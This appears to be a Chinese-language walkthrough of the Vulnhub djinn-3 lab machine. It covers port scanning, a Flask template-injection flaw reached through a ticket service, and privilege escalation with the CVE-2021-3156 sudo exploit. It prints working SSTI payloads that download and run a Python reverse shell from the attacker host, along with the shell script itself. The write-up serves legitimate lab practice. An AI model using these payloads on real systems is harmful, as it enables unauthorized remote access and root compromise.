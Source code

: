 ```yaml
---

title: Vulnhub	492	djinn-3
date: 2020-06-19
---
```

考点：flask

靶机链接：<https://www.vulnhub.com/entry/djinn-3,492/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| djinn-3    | 10.0.2.10 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.10
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:44:23:ac:b2:d9:82:e7:90:58:15:5e:40:23:ed:65 (RSA)
|   256 ae:04:85:6e:cb:10:4f:55:4a:ad:96:9e:f2:ce:18:4f (ECDSA)
|_  256 f7:08:56:19:97:b5:03:10:18:66:7e:7d:2e:0a:47:42 (ED25519)
80/tcp    open  http    lighttpd 1.4.45
|_http-title: Custom-ers
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: lighttpd/1.4.45
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
31337/tcp open  Elite?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     username> password> authentication failed
|   Help: 
|     username> password>
|   RPCCheck: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte

```

### WEB测试

查看5000端口，感觉应该是存在flask SSTI漏洞

31337端口需要用户名密码，guest/guest 连上，发现可以发内容，并显示在5000端口

### 漏洞发现

![1](https://www.vulnhub.cn/walkthrough/492/1.webp)

![2](https://www.vulnhub.cn/walkthrough/492/2.webp)

还可以执行命令了

本地http服务目录存放反弹shell脚本`r.py`

```python
import sys, socket, subprocess, os

port = int(sys.argv[1])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.15', port))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])

```

```bash
# 下载
> open                                                      
Title: 8
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('wget http://10.0.2.15/reverse/r.py -O r.py').read()}}
# 运行
> open                                                      
Title: 9
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('python3.6 r.py 444').read()}}
```



## 获得权限

### 靶机测试

本地监听，点击5000端口的链接，获得反弹shells

![3](https://www.vulnhub.cn/walkthrough/492/3.webp)

## 提权

使用CVE-2021-3156提权

```bash
$ git clone https://github.com/worawit/CVE-2021-3156
$ cd CVE-2021-3156
$ python exploit_nss.py 
```

![4](https://www.vulnhub.cn/walkthrough/492/4.webp)
